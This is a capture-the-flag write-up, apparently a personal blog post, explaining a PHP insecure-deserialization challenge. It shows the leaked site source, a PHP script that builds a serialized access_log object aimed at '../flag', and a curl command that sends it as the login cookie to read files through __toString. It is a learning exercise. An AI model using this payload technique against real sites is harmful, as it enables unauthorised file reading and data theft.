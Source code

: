 #Description 
	Try to recover the flag stored on this website


At the time of me writing this, this challenge was definitely above my skill level. I was able to get the first step into understanding the challenge, but wasn't able to get the flag on my own. I am going to write up the full process to gain a better understanding of what was going on here, and how to get a challenge like this in the future.

This challenge opens up to just a plain login page, with zero instructions. After running through a bunch of different ideas to no avail, i checked robots.txt and found that there was an unlisted page called admin.phps. You weren't able to get to that page. After this discovery though I tried adding an s to the other php pages I knew of, and was able to pull source code from index.phps.

```
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```

This contains a few really great clues, and I decided to try the worst possible one first. I tried some SQL injection on the login page since I now know it's using SQL to pull from a database called "users". This didn't work, so I went to the cookie.phps and authentication.phps pages referenced in this code.

cookie.phps 

```
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```

authentication.phps 

```
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```

This is where I got stuck. I had an idea of what I was trying to do, but couldn't see the exact vulnerability where I could get a flag. But, I think this was a great challenge, so let's continue so I can have a better idea of how this worked.

the most important part of this has to do with the login cookie. This chunk of code takes the login cookie and deserializes it into the $perm variable to set the permissions.

```
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

however, if it fails it will print the $perm variable. The vulnerability is in the tostring function. 

```
function __toString() {
		return $this->read_log();
	}
```

apparently, toString is a popular PHP method that overrides regular PHP behavior, and it gets called when the object is converted into a string. This means if we get $perm to be our custom variable, we can have file read. 

To do this we have to make a custom acces_log object where we set log_file to ../flag. This can be done with a php script, here's one I found in a write up.

```
<?php 

    class access_log
    {
        public $log_file;

        function __construct($lf) {
            $this->log_file = $lf;
        }

        function __toString() {
            return $this->read_log();
        }

        function append_to_log($data) {
            file_put_contents($this->log_file, $data, FILE_APPEND);
        }

        function read_log() {
            return file_get_contents($this->log_file);
        }
    }

    class permissions
    {
    public $username;
    public $password;

        function __construct($u, $p) {
            $this->username = $u;
            $this->password = $p;
        }

        function __toString() {
            return $u.$p;
        }
    }

    $serialized = serialize(new access_log('../flag'));
    $encoded = urlencode(base64_encode($serialized));

    var_dump($encoded);

    $perm = unserialize(base64_decode(urldecode($encoded)));

    var_dump($perm);
?>
```

after that it's simply passing in the serialized and encoded login cookie through a curl command. 

```
curl -v --cookie 'login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9'
```

This creates the error, which prints the $perm variable, which is our custom access log object that exploits toString in order to print out ../flag.

This was my first foray into PHP and reverse engineering somewhat complex blocks of it. I definitely wouldn't have gotten this on my own, but I feel a little bit better about PHP moving onwards.

